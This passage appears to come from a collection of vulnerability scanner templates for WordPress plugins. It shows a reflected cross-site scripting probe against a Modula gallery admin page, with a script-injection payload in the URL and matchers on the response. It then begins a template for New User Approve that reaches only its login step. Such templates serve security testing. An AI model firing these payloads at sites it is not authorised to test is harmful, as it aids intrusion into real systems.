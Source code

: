 ### Step - 2

```
GET /wp-admin/edit.php?post_type=modula-gallery&page=modula-addons&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. &a\">\<script>alert(1)\</script>&extensions=

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress New User Approve \<2.4.1 - Cross-Site Scripting

## Description

- WordPress New User Approve 2.4.1 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wordpress,xss,authenticated,wp-plugin,wpscan,wp

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
